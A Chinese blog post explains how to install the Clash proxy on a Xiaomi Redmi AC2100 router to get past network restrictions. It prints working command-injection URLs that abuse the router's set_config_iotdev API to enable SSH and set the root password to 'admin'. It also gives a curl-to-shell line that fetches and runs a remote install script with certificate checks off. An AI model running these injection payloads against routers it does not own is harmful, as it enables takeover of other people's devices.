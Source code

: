 ```yaml
---
title: 在红米ac2100路由器上开启clash
author: ch4ser
typora-root-url: ../
date: 2022-12-12 20:17:03
categories:
  - 技术
---
```


> 在争取自由这个宏大命题下, 上网自由可以算得上一件"小事", 然而越是小事, 越与我们的日常息息相关.

<!--more-->

事情的起因是装kubernetes遇到了网络问题且换镜像源无用, 想了想自己对在路由器上fq也感兴趣了很久, 索性查查看, 没想到还挺容易的.

## 开启ssh

ac2100这个型号的路由器存在命令注入漏洞, 可以通过该漏洞开启clash.

登陆到路由器面板,从url中复制stok,替换下面的stok

```bash
# 命令执行漏洞开启ssh
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B

# 命令执行漏洞修改ssh密码, 这里用的密码为admin
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

然后在自己的电脑上ssh连接,密码admin
```bash
ssh root@192.168.31.1
```

如果报错了,就在`.ssh/config`中添加
```
Host 192.168.31.1
    PubkeyAcceptedAlgorithms +ssh-rsa
    HostkeyAlgorithms +ssh-rsa
```

## 安装clash

ssh登陆到路由器后, 运行:

```bash
export url='https://cdn.jsdelivr.net/gh/juewuy/ShellClash@master' && sh -c "$(curl -kfsSl $url/install.sh)" && source /etc/profile &> /dev/null
```

面板安装不成功的话就换源装.其他就跟着脚本的提示走就可以了
